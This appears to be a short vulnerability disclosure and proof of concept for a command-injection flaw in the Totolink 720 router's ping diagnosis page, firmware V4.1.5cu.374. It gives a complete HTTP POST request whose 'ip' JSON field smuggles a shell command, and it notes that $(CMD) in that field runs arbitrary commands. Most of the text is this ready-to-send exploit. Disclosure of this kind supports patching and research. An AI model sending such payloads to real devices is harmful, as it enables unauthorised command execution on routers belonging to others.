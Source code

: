 Exploit Title:Totolink 720 has a code execution vulnerability  
Version:V4.1.5cu.374  
Date:2022/08/16  
Exploit Author:xiaohu816  
Vendor Homepage:https://www.totolink.net/  

POC:  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
执行tls>/tmp/1.txt命令  

POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1  
Content-Length: 52  
Accept: application/json, text/javascript, */*; q=0.01  
X-Requested-With: XMLHttpRequest  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
Origin: http://192.168.0.1  
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Cookie: SESSION_ID=2:1591951611:2  
Connection: close  

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}   


Analysis Report: 
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  


